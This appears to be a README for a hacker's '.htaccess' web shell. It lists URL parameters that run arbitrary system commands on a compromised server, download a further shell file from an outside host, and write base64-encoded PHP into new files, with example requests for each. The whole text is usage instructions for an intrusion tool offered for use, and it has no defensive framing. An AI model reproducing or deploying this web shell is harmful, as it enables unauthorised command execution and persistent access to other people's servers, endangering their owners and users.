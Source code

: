 # .htaccess Shell by JamvanHax0r

Usage for jhax0r_php.shell.htaccess
site.com/urfile.ht?c=command here

Usage for .htaccess Multifunctional Shell
- CMD Command
.htaccess?cmd=command&function=function
Exp:
.htaccess?cmd=ls&function=system
.htaccess?cmd=ls&function=exec
.htaccess?cmd=ls&function=shell_exec
.htaccess?cmd=ls&function=pasthru
- WGET File
.htaccess?file=nameoffile.php&link=ur website/shell.txt
Exp:
.htaccess?file=shell.php&link=http://mysite.com/shell.txt
- Encode Base64 Command
.htaccess?name=namafile.php&enc=encode base64 here
Exp:
.htaccess?name=namafile.php&enc=PD9waHAgc3lzdGVtKCdscyAtbGEnKTs/Pgo=

For Base64 and Other Language En/Decoder
> http://conzeptnote.com/en.php

Enjoy \🤘🏻/
